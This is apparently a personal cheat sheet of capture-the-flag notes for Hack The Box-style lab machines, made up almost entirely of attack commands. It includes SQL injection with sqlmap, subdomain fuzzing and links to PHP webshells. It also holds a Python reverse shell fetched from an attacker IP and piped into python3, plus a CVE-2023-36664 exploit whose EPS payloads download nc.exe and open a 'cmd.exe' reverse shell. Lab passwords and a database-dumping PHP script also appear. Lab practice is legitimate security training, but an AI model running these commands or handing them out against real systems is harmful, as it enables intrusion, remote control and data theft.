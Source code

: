 # CTF gathered resources 

## SQLi 

Nice tutorial: https://hackertarget.com/sqlmap-post-request-injection/ | ` sqlmap -r burp-http-req.txt -p password`

## Enum

- subdomain enum `ffuf` | `go install github.com/ffuf/ffuf/v2@latest` | `ffuf -w ./Subdomain.txt -u http://monitorsthree.htb -H "Host: FUZZ" -fs 13560`

## PrivEsc

```
https://gtfobins.github.io/
```
## Commands

- `sudo -l`
- `puttygen keeper.ppk -O private-openssh -o keeper.pem` PPK to PEM
- `ansible2john ansible.vaul >> hashes`

## Webshells

- PHP webshell file upload feature - https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php
- PHP webshell, multiple function exploit - https://github.com/flozz/p0wny-shell

## Python Shell

```
python2 handler.py -b 10.10.14.92:8888
# Run the reverse shell
curl 10.10.14.92:8000/shell.py|python3
```
## Kali

`/usr/share/windows-binaries/nc.exe`

## Samba

```
smbclient -L \\\\authority.htb\\
smbclient  \\\\authority.htb\\Development
```

## Windows

- `evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'` SSH for windows
-  `sudo responder -I tun0` Start some service

## PHP get DB

```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
$sql = "SELECT * FROM users";

// Execute the query
$result = mysqli_query($link, $sql);
if ($result) {
    // Check if there are rows in the result set
    if (mysqli_num_rows($result) > 0) {
        // Output data of each row
        while ($row = mysqli_fetch_assoc($result)) {
            print_r($row); // You can customize this output based on your needs
            echo "<br>";
        }
    } else {
        echo "No records found";
    }

    // Free result set
    mysqli_free_result($result);
} else {
    echo "ERROR: Could not execute $sql. " . mysqli_error($link);
}

// Close connection
mysqli_close($link);
?>
```

## RoundCube

```
python3 CVE_2023_36664_exploit.py --generate --payload "curl 10.10.14.92:8000/nc.exe -o nc.exe" --filename first --extension eps
# execute shell
python3 CVE_2023_36664_exploit.py --generate --payload "nc.exe -e cmd.exe 10.10.14.92 6666" --filename second --extension eps
```

